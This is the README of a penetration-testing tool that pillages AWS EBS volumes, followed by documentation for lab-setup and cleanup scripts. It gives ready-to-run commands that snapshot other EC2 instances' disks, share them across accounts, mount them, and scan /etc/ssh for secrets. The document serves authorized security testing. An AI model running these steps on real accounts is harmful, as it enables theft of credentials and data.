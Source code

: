 # EBS Pillager

This is an EC2 EBS post-exploitation script. The end goal is to make your life a lot easier if you get admin in EC2 while on an AWS pen test and are interested in pillaging other instances' EBS volumes. It automates the process of creating snapshots of EBS volumes, transferring them between AWS accounts if necessary, mounting them on the attacker-controlled EC2 instance, and running Trufflehog on the EBS volume's mounted snapshot. 

## Features
- **Snapshot Creation**: Create snapshots of the root EBS volume of an EC2 instance.
- **Cross-Account Snapshot Transfer**: Optionally transfer the snapshot to a different AWS account.
- **Volume Creation**: Create a new volume from the snapshot and attach it to a target EC2 instance.
- **Volume Mounting**: Mount the created volume to a specified EC2 instance for inspection.
- **Trufflehog Scanning**: Run Trufflehog on the mounted volume to search for secrets.

## Requirements
- Python 3.x
- `boto3` library
- AWS CLI configured with necessary profiles

## Usage
### Same Account Abuse
This scenario involves creating a snapshot and mounting the volume within the same AWS account.
```
python3 ebspillage.py --src-profile $dst_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-09639c1f8c7408b0d --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json
```

### Cross-Account Abuse Without Snapshot Transfer
In this scenario, the snapshot is created in one AWS account but is not transferred to the destination account. The volume is created and mounted within the source account.
```
python3 ebspillage.py --src-profile $src_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-062fb4910e81569b1 --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json
```

### Cross-Account Abuse with Snapshot Transfer
This scenario involves creating a snapshot in one AWS account, transferring it to another account, and then creating and mounting the volume in the destination account.

```
python3 ebspillage.py --src-profile $src_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-062fb4910e81569b1 --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json --transfer
```

## Arguments
- `--src-profile`: The AWS CLI profile name for the source account.
- `--dst-profile`: The AWS CLI profile name for the destination account.
- `--src-region`: The AWS region for the source account.
- `--dst-region`: The AWS region for the destination account.
- `--mount-path`: The path on the target instance where the volume will be mounted.
- `--pillage`: Flag to enable the process of creating a snapshot, creating a volume, mounting it, and running Trufflehog.
- `--ssh-key-path`: The path to the SSH key file used for connecting to the instance.
- `--target-ec2`: The EC2 instance ID for which the snapshot will be created.
- `--mount-host`: The EC2 instance ID where the volume will be mounted.
- `--pillage-path`: The path within the mounted volume where Trufflehog will be run.
- `--out-file`: The path where the Trufflehog output will be saved.
- `--json`: Flag to enable JSON output format for Trufflehog.
- `--transfer`: Flag to transfer the snapshot from the source account to the destination account.
- `--retain`: Retain the snapshot and volume after processing, instead of deleting them.

# AWS EC2 Helper Scripts

This repository contains two helper scripts, `create_ec2.sh` and `delete_all.sh`, designed to manage EC2 instances and related resources on AWS. These scripts simplify the process of creating and cleaning up EC2 instances, volumes, and snapshots.

## Scripts Overview

### `create_ec2.sh`

This script automates the creation of an EC2 instance in a specified AWS region. The script is designed to apply a specific tag (`TrufflehogTesting`) to both the EC2 instance and its associated EBS volume.

#### Usage

`bash create_ec2.sh --profile PROFILE_NAME --region REGION --instance-profile INSTANCE_PROFILE --ip-allowlist IP_ADDRESS --key KEY_NAME --image-id IMAGE_ID --instance-type INSTANCE_TYPE`

#### Parameters

- `--profile`: The AWS CLI profile to use for authentication 
- `--region`: The AWS region where the instance will be created (e.g., `us-east-1`).
- `--instance-profile`: The IAM instance profile to attach to the instance (e.g., `SMInstanceProfile`).
- `--ip-allowlist`: The IP address (or range) to allow SSH access (e.g., `1.2.3.4/32`). You can use `curl -s ifconfig.me` to automatically use your current public IP.
- `--key`: The name of the SSH key pair to associate with the instance 
- `--image-id`: The ID of the Amazon Machine Image (AMI) to use for the instance 
- `--instance-type`: The type of instance to create (e.g., `t3.micro`).

#### Example

`bash create_ec2.sh --profile YOUR_PROFILE --region us-east-1 --instance-profile SSMInstanceProfile --ip-allowlist `curl -s ifconfig.me`/32 --key YOUR_KEY --image-id YOUR_AMI_ID --instance-type t3.micro`

This command will create an EC2 instance with the tag `TrufflehogTesting` applied to both the instance and its associated EBS volume.

### `delete_all.sh`

This script automates the deletion of all EC2 instances, EBS volumes, and snapshots that have been tagged with `TrufflehogTesting`. It provides an easy way to clean up resources after testing.

#### Usage

`bash delete_all.sh --profile PROFILE_NAME --region REGION`

#### Parameters

- `--profile`: The AWS CLI profile to use for authentication  
- `--region`: The AWS region where the resources are located  

#### Example

`bash delete_all.sh --profile YOUR_PROFILE --region us-east-1`

This command will delete all EC2 instances, EBS volumes, and snapshots in the specified region that have been tagged with `TrufflehogTesting`.

### Script Details

- `create_ec2.sh`: 
  - Automatically tags EC2 instances and associated EBS volumes with `TrufflehogTesting`.
  - Configures security group rules to allow SSH access from a specified IP address.
  - Starts the instance and waits for it to be in the `running` state before outputting the public IP.

- `delete_all.sh`: 
  - Finds and deletes all EC2 instances tagged with `TrufflehogTesting`.
  - Finds and deletes all EBS volumes and snapshots tagged with `TrufflehogTesting`.
  - Ensures that resources are cleaned up thoroughly to avoid unnecessary charges.

### Requirements

- **AWS CLI**: The scripts require the AWS CLI to be installed and configured with appropriate credentials.
- **JQ**: The `jq` command-line tool is used to parse JSON output from the AWS CLI.

## To Do

- [ ] Run tests with encrypted EBS volumes with various roles / AuthZ levels 
- [ ] Add functionality to work with specific KMS keys for decrypting volumes if encrypted 

## License
This project is licensed under the MIT License.
